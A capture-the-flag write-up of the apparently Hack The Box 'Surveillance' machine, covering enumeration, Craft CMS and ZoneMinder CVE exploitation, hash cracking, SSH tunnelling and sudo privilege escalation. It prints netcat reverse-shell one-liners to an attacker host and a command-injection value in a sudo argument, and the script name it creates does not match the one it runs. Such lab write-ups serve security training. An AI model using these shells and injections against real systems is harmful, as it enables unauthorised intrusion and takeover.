I start with a full Nmap scan to identify open ports and running services on the target host.
nmap -Pn -sC -sV -p- --open <IP> -oN scan.txtThe scan reveals that ports 22 and 80 are open, running OpenSSH 8.9p1 and nginx 1.18.0 respectively. Since the website does not resolve by default, I add the domain to the /etc/hosts file to properly access it.

With the website accessible, I perform directory enumeration in order to discover hidden endpoints, authentication panels, or other potentially interesting resources.
gobuster dir -u http://surveillance.htb/ -w /usr/share/wordlists/dirb/big.txtDuring enumeration, I identify the /admin/login directory. While inspecting the page source, I also discover a reference to a public GitHub repository, which provides valuable information about the application in use.

Based on the repository and version information, I identify a known vulnerability. Specifically, CVE-2023-41892, which allows for remote code execution under certain conditions.
By exploiting CVE-2023-41892, I successfully achieve remote code execution on the target and obtain an initial reverse shell.

To improve stability, I decide to generate a more reliable reverse shell payload using msfvenom.
msfvenom -p cmd/unix/reverse_netcat LHOST=<IP> LPORT=<PORT> RThe generated payload provides a command that I execute on the target to establish the connection.
mkfifo /tmp/ypev; nc <IP> <PORT> 0</tmp/ypev | /bin/sh >/tmp/ypev 2>&1; rm /tmp/ypevOnce connected, I upgrade the shell using Python to obtain a fully interactive TTY.
python3 -c 'import pty; pty.spawn("/bin/bash")'At this point, I identify two local users on the system: matthew and zoneminder. While exploring the filesystem, I locate a file that appears to contain potentially sensitive information.

I transfer this file to my local machine for further analysis.


While inspecting the SQL content, I search for the previously identified users and locate credential-related data.

I extract a password hash and use hash identification techniques to determine its format. After successfully cracking the hash, I recover the password for the matthew user.
Using these credentials, I establish an SSH connection as matthew to gain a stable and persistent shell.

Inside matthew’s home directory, I retrieve the user.txt flag. During further exploration, I notice references to an application named ZoneMinder.

Additional checks reveal that ZoneMinder is running on a different port, not directly accessible from my machine.

To access this service, I create an SSH port forwarding tunnel through the compromised host.
ssh -L 4444:127.0.0.1:8080 matthew@surveillance.htbThis allows me to access the ZoneMinder web interface locally.

From the application interface, I determine the exact version of ZoneMinder in use and begin searching for known vulnerabilities.

I identify CVE-2023-26035, which can be exploited to achieve remote code execution. Using this vulnerability, I obtain another reverse shell, this time with higher privileges.

Running sudo -l reveals that I can execute a specific ZoneMinder-related command as root.

To leverage this misconfiguration, I create a malicious script in the /tmp directory that initiates a reverse shell.
echo '#!/bin/bash busybox nc <IP> <PORT> -e sh' > myscript.shAfter transferring the script to the target and assigning execution permissions, I execute the vulnerable command in a way that triggers my payload with root privileges.
sudo /usr/bin/zmupdate.pl --version=1 --user='$(/tmp/reverse.sh)' --pass=ZoneMinderPassword2023This results in a root shell, allowing me to finally retrieve the root.txt flag and complete the machine.